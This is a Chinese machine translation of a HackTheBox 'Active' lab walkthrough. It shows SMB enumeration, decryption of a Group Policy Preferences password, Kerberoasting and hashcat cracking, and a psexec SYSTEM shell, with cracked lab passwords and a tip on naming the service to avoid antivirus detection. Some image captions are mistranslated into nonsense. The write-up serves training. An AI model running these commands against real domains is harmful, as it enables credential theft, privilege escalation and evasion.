


# Active—Kerberos 和 Active Directory 黑客盒子演练

> 原文：<https://infosecwriteups.com/active-a-kerberos-and-active-directory-hackthebox-walkthrough-fed9bf755d15?source=collection_archive---------0----------------------->


# 摘要

Active 是一个 windows Active Directory 服务器，它在 SMB 共享中包含一个可通过匿名登录访问的`Groups.xml`文件。该文件包含一个用户帐户的组策略首选项密码，该密码随后被破解，以便获得对用户标志具有读取权限的服务帐户的访问权限。

通过获取与服务帐户相关联的服务主体名称并检索管理员的 Kerberos 5 哈希来提升权限。通过 psexec 之类的工具安装/执行任意服务，可以破解并授予对文件系统和交互式外壳的读/写访问权限。

# 侦察

我开始在这台主机上进行侦察，用`nmap`扫描检查服务版本，并在前 1000 个最常见的端口上运行默认脚本:

```
nmap -sV -sC 10.10.10.100
```

纳米粒子加速器

这返回了大量端口。由于 DNS、Kerberos 和 LDAP 是这台机器上无数服务和端口的一部分，它看起来像是一个域控制器。允许直接用户交互的服务不多，由于缺少在端口 445 上为 SMB 收集的信息，这是主机上枚举的下一个目标。

```
smbclient -L //10.10.10.100 -N
```

> `-L` —上市股票
> 
> `-N` —匿名登录

中小企业股份

同样，这个简单的枚举步骤返回了几个结果。查看对多个 SMB 共享的访问的一种快速方法是通过一个叫做`smbmap`的工具:

```
smbmap -H 10.10.10.100
```

smbmap

经过一些检查后，`Replication`共享返回了一个`Groups.xml`文件，路径为:

```
\active.htb\Policies\{31B2F340–016D-11D2–945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

查看该文件的内容:

Groups.xml

# 最初的立足点

有一个用户名`active.htb\SVC_TGS`，其值`cpassword`包含 AES 加密的密码。已经创建了几个工具来破解这些密码，其中包括我从 PowerSploit 中提取的一个函数，以便破解这个文件:

Get-DecryptedCpassword

该函数接收组策略首选项密码作为命令行参数，并返回明文字符串。这甚至可以在 macOS 上的 PowerShell Core 中运行！



PowerShell 核心上的 Get-DecryptedCpassword

幸运的是，Kali 附带了一个内置工具来解密这个名为`gpp-decrypt`的密码:

这两种方法都返回相同的密码，并且该帐户能够访问`Users`共享并查看`user.txt`标志。

# 权限提升

使用[入包](https://www.secureauth.com/labs/open-source-tools/impacket)的`GetUserSPNs.py`模块，`active.htb\SVC_TGS`账户能够找到并获取与普通用户账户相关联的服务主体名称。以下命令列出了管理员帐户

```
./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

> `-dc-ip` —域控制器的 IP 地址
> 
> `-request` —为用户请求 TGS，并以 JtR/hashcat 格式输出

GetUserSPNs.py

这返回了一个 Kerberos 5 哈希，hashcat 可以使用`rockyou.txt`单词表和参数破解这个哈希:

```
hashcat -m 13100 -d 3 -a 0 -o Active.txt Administrator.hash rockyou.dict
```

破解后的密码被写入`Active.txt`。读取文件返回明文密码`Ticketmaster1968`。这些凭证可以用来访问`root.txt`标志。

使用诸如`psexec`之类的工具可以获得一个交互式外壳。许多操作类似于`psexec`的工具，如[插件](https://www.secureauth.com/labs/open-source-tools/impacket)中的模块，允许命名安装和移除的服务。为安装后不久可能会被删除的内容选择一个服务名，例如对反病毒客户端的[更新，这是一个有助于避免检测的简单步骤。](https://support.symantec.com/en_US/article.TECH102748.html)

```
./psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 -service-name LUALL.exe
```



交互式外壳作为系统